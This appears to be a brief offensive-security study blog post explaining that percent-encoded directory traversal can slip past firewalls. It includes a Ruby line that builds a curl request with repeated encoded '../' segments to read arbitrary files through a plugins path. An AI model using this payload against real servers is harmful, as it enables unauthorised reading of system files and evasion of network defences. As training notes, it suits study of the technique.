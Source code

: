 ```yaml
---
layout: post
title: 
titledate: 08/28/23
tags: ["infosec","offsec", "web", "dir_traversal"]
---
```


It may be necessary to % encode the path traversal in the URI request in order to bypass firewalls 

I edited my useless [script](https://github.com/ST4RGUARD/OSCP/blob/master/dir_traversal/plugin_pwn.rb) to illustrate this point 

```ruby
cmd = "curl http://#{ARGV[0]}/public/plugins/#{line}/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/#{ARGV[1]}"
```
